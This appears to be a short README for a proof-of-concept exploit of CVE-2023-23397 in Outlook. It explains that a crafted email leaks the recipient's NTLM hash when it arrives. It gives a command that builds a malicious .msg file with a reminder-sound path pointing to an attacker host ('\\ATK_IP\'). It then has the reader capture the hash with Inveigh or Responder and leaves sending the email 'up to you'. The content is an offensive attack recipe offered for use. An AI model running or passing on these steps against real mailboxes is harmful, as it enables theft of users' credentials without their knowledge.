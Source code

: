 # CVE-2023-23397 

Link for more details: https://github.com/Trackflaw/CVE-2023-23397

This CVE permits to leak the NTLM hash of the target as soon as the email arrives in his Outlook mail box. This PoC generates a .msg file containing the exploit in the pop-up sound attribute. It is up to you to send the email to the target.

### 1) Generate the .msg file

    CVE-2023-23397.py --path '\\ATK_IP\'

### 2) Before sending the email, run Inveigh/Responder to intercept the NTLM hash

### 3) VOILA!
